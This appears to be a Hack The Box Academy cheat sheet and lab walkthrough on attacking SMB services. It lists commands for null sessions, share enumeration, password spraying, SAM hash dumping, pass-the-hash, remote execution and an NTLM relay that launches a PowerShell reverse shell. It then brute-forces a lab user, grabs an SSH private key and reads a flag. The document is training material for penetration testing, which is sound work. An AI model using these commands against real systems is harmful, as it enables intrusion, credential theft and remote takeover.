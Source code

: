## [Attacking SMB](https://referral.hackthebox.com/mzyGKZb)

| Command                                                                                       | Description                                                         |
|-----------------------------------------------------------------------------------------------|---------------------------------------------------------------------|
| `smbclient -N -L //10.129.14.128`                                                             | Null-session testing against the SMB service.                       |
| `smbmap -H 10.129.14.128`                                                                     | Network share enumeration using smbmap.                             |
| `smbmap -H 10.129.14.128 -r notes`                                                            | Recursive network share enumeration using smbmap.                   |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"`                                         | Download a specific file from the shared folder.                    |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"`                                  | Upload a specific file to the shared folder.                        |
| `rpcclient -U'%' 10.10.110.17`                                                                | Null-session with the rpcclient.                                    |
| `./enum4linux-ng.py 10.10.11.45 -A -C`                                                        | Automated enumeration of the SMB service using enum4linux-ng.       |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'`                          | Password spraying against different users from a list.              |
| `impacket-psexec administrator:'Password123!'@10.10.110.17`                                   | Connect to the SMB service using impacket-psexec.                   |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` | Execute a command over the SMB service using crackmapexec.         |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`         | Enumerating Logged-on users.                                        |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`                      | Extract hashes from the SAM database.                               |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`          | Use the Pass-The-Hash technique to authenticate on the target host. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`                          | Dump the SAM database using impacket-ntlmrelayx.                    |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using impacket-ntlmrelayx. |


## Questions:

### What is the name of the shared folder with READ permissions?

```
smbmap -H $TARGET_IP
[+] IP: TARGET_IP:445	Name: TARGET                                     
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	GGJ                                               	READ ONLY	Priv
	IPC$                                              	NO ACCESS	IPC Service (attcsvc-linux Samba)

```

### What is the password for the username "jason"?
* First, load pwd.list from resources.
```
crackmapexec smb $TARGET_IP -u jason -p pwd.list --local-auth
```

### Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

``` 
smbclient  //$TARGET_IP/GGJ -U 'jason%$PASSWORD' -

smb: \> ls
  .                                   D        0  Tue Apr 19 16:33:55 2022
  ..                                  D        0  Mon Apr 18 12:08:30 2022
  id_rsa                              N     3381  Tue Apr 19 16:33:04 2022

		14384136 blocks of size 1024. 10088352 blocks available
smb: \> get id_rsa
getting file \id_rsa of size 3381 as id_rsa (89.2 KiloBytes/sec) (average 89.2 KiloBytes/sec)
smb: \> !cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEA1RKythwhDQVnsZpGDDeIWh/z0a4y5mQoIIBXOeHJM8rLNzB/fdMD
XvN+6R6s0wh/fpava2en2s/G6m8OGjjY8DbgO0A40HwzKyVEKk15tJ9QlcaqS0O77UrjW/
...
<SNIP>
....
```
```
 [★]$ ls
cacert.der  Documents  id_rsa  Pictures  pwd.list   Videos
Desktop     Downloads  Music   Public    Templates

```
```
chmod 600 id_rsa
ssh -i id_rsa jason@$TARGET_IP
cat flag.txt
HTB{SMB_*******_*********9}
```
# [Subscribe for getting more HTB Cubes!](https://referral.hackthebox.com/mzyGKZb)
